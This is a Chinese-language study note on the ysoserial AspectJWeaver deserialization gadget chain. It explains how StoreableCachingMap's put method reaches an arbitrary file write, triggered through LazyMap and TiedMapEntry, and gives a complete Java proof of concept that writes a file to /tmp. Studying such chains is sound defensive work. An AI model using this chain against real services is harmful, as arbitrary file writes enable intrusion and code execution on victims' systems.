




# AspectJWeaver反序列化

## 笔者环境

并不是说只能用这个环境只是学习原理，随便找了个版本能用

```java
aspectjweaver : 1.8.6
commons-collections : 3.2.2
```


## 触发利用分析

​	首先可以看到在 `org.aspectj.weaver.tools.cache.SimpleCache` 类中有一个内部类 `StoreableCachingMap`，同时他继承了`HashMap`这里比较重要

可以看到他的`put`方法当中的`writeToPath`能触发任意文件的写入

可以看到他的`put`方法当中的`writeToPath`能触发任意文件的写入

那有什么办法可以触发其文件写呢，也就是如何触发put方法呢，ysoserial 此链中最终选择了`LazyMap`

那么触发`LazyMap#get`就更简单了，这里ysoserial选择通过`TiedMapEntry` 的 `hashCode` 进一步触发

那么触发利用就很方便啦


## 利用链构造

```java
package marshalsec;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.nio.charset.StandardCharsets;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class AspectJWeaver {

    public static void main(String[] args) throws Exception {

        String fileName    = "y4.txt";
        String filePath    = "/tmp";
        String Content = "test AspectJWeaver";


        Class c = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor<?> constructor = c.getDeclaredConstructor(String.class, int.class);
        constructor.setAccessible(true);
        Map map = (Map) constructor.newInstance(filePath, 10000);


        Transformer transformer = new ConstantTransformer(Content.getBytes(StandardCharsets.UTF_8));


        Map   lazyMap = LazyMap.decorate(map, transformer);
        TiedMapEntry entry   = new TiedMapEntry(lazyMap, fileName);

        HashSet<Object> hs = new HashSet<>();
        hs.add(entry);


        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hs);

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
        objectInputStream.readObject();
    }

}
```

## 结果


